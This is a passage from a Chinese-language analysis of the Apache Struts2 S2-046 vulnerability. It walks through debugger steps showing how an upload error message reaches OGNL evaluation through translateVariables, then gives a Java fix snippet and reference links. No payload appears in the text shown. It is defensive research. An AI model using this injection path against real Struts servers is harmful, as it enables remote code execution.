

&emsp;&emsp;&emsp;&emsp;12.会发现getDefaultMessage调用了老朋友TextParseUtil.translateVariables方法对错误信息进行ongl表达式处理.一直F7找到具体的translateVariables方法.









&emsp;&emsp;&emsp;&emsp;13.F7继续进入evaluate方法,最终通过evaluator.evaluate(var)执行了ongl表达式



## 漏洞修复

> 出错后,不把错误信息传入到LocalizedTextUtil.findText方法中去,错误信息就不会进行OGNL表达式解析.

```java
if (LocalizedTextUtil.findText(this.getClass(), errorKey, defaultLocale, null, new Object[0]) == null) {
            return LocalizedTextUtil.findText(this.getClass(), "struts.messages.error.uploading", defaultLocale, null, new Object[] { e.getMessage() });
        } else {
            return LocalizedTextUtil.findText(this.getClass(), errorKey, defaultLocale, null, args);
        }
```

## 总结

> 挖Struts漏洞感觉深入跟进translateVariables方法就行了.

## 参考

> https://xz.aliyun.com/t/221

> https://www.anquanke.com/post/id/85776

> https://cwiki.apache.org/confluence/display/WW/S2-046

> https://github.com/vulhub/vulhub/blob/master/struts2/s2-046/README.zh-cn.md

